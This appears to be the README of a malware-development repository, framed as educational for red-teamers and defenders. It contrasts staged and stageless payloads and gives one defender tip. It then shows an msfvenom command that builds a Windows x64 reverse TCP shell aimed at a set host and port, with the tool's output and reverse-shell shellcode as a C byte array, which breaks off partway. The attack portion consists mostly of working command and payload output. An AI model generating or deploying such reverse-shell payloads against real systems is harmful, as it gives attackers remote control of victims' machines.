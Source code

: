 # Maldev
---

<p align="center">
  <img src="https://github.com/user-attachments/assets/9f6db4ad-f12b-4b63-83f6-562ffc7b89ea" alt="malware-z0duu5zao940t2vz" />
</p>

---

> Educational repository focused on Windows API concepts, defensive detection, safe demos, and learning resources for red-teamers and defenders.
---

## ⚡ Staged vs Stageless Payload 🔥

### 🪄 Staged (two-part)
- 📦 What: Tiny stager delivered first → it downloads/loads the larger payload.
- ✅ Pro: tiny initial footprint (fits tight vectors).
- ⚠️ Con: needs network fetch — observable.

### 💥 Stageless (single-file)
- 📡 What: Everything delivered and executed at once — no follow-up fetch.
- ✅ Pro: reliable, works offline/air-gapped.
- ⚠️ Con: bigger footprint — easier to detect.

### 🛡️ Defender one-liner
Watch for short-lived small processes that immediately fetch or write larger binaries — that’s your red flag. 🚩




---
## **Example 1:**
## Generate metasploit stageless payload.

```bash
kant@APPLEs-MacBook-Pro ~> /opt/metasploit-framework/bin/msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.134.217.216 LPORT=4545 -f c
Running the 'init' command for the database:
Existing database found, attempting to start it
Starting database at /Users/kant/.msf4/db...waiting for server to start.... done
server started
success
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of c file: 1963 bytes
unsigned char buf[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
```